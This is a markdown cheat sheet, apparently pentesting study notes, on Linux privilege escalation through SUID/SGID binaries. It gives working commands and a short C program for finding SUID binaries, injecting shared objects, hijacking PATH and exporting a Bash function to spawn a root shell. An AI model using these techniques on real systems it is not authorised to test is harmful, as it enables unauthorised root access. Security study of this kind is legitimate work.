 # Privileges Escalation - Linux
# Exploiting SUID/SGID 

## Executables
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` to look for executables, hoping some of them have an obsolete (so vulnerable) version.
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- If we find something interesting, copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects
Some binaries could be vulnerable to shared objects injections.
- `strace <BINARY PATH> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <BINARY PATH>` to look for readable ASCII or Unicode characters.
  - If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`), we can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <EXPLOIT>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <BINARY PATH>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root. shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). If the version is below 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root. shell. Check it with `whoami`.












